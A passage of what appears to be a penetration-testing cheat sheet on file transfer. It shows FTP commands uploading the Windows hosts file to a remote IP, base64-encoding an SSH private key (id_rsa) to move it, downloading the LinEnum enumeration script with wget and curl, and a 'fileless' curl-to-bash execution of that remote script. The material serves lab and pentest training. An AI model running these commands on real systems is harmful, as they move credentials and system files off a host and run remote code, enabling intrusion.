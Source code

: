 ```cmd.exe
open 192.168.49.128
```
Log in with `USER` and `PASS` first

```cmd.exe
USER anonymous
```


```cmd.exe
PUT c:\windows\system32\drivers\etc\hosts
```

```cmd.exe
bye
```


## Linux

### Linux over Web Server

#### Check SSH key MD5 hash
```Shell
md5sum id_rsa
```

#### Encode SSH key to Base64
```Shell
cat id_rsa |base64 -w 0;echo
```

#### Decode the SSH key on the Linux target. Can then check its MD5 hash with md5sum command.
```Shell
echo -n '<base64 code>' | base64 -d > id_rsa
```

#### Download a file using Wget
```Shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### Download a file using cURL
```Shell
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```


### Linux - Fileless Attacks

#### Fileless download with cURL
```Shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
